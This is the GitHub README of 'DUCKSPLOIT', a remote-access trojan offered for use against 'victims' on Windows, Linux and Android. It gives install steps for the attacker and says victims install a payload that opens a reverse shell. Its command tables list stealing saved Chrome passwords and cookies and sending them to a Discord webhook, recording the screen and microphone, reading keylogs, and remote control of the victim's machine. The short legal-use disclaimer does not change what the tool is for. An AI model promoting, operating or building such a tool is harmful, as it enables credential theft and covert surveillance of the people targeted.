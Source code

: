 <img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.8-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)![](https://img.shields.io/badge/Linux-yellow?style=for-the-badge)![](https://img.shields.io/badge/Android-green?style=for-the-badge)

> Awsome crossbreed of c#, batch, bash powershell, java and python on Windows, Android n linux ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup Windows/Linux
1. Download the hacker's version for your version (win/linux/android) on <a href="https://ducksploit.com/download">our website</a>
2. Install the executable (DSinstaller.exe/.deb/.apk)
3. Type ds in your terminal
4. And done! 
###### :warning: Only for Android
5. Set your port
6. Click on START SERVER button
7. And wait till someone install your payload

 **⚠️DS ANDROID'S PAYLOAD GENERATION IS NOT ACTUALLY WORKING
 TO GET YOUR PAYLOAD PLEASE GO IN OUR DISCORD SERVER⚠️**



#### Victim
Just install the generated payload and that will start automaticaly the client of the reverse shell
:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (windows/linux)
1. type 'ds uninstall' in cmd
2. Done  :smile:

## Uninstall DuckSploit for Android
 1. Delete the app from your phone
 
## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>              # or             <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command       | Usage                              | Result                                                                               |
| ------------- | ---------------------------------- | ------------------------------------------------------------------------------------ |
| stealpwds     | stealpwds (discord webhook url)    | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook   |
| open          | open (applicationname.exe)         | open mensioned application                                                           |
| recordscreen  | recordscreen (time in second)      | record victim's screen durring amount of time                                        |
| recordmicro   | recordmicro (time in second)       | record victim's micro durring amount of time                                         |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}/keylogger/' ⚠️

#### Mouse
| Command     | Usage                            | Result                                      |
| ----------- | -------------------------------- | ------------------------------------------- |
| mouseclick  | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove   | mousemove (x) (y)                | move the victim's cursor by x and y pixels  |
| locatemouse | locatemouse                      | get the victim's cursor current locations   |

#### Alert Window
| Command  | Usage                       | Result                                                                    |
| -------- | --------------------------- | ------------------------------------------------------------------------- |
| msg      | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines |

#### Troll
| Command | Usage | Result                              |
| ------- | ----- | ----------------------------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |


## Made with ❤️ by DuckpvpTeam's devs
<br>
<a href="https://github.com/canarddu38/DUCKSPLOIT/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=canarddu38/DUCKSPLOIT" />
</a>

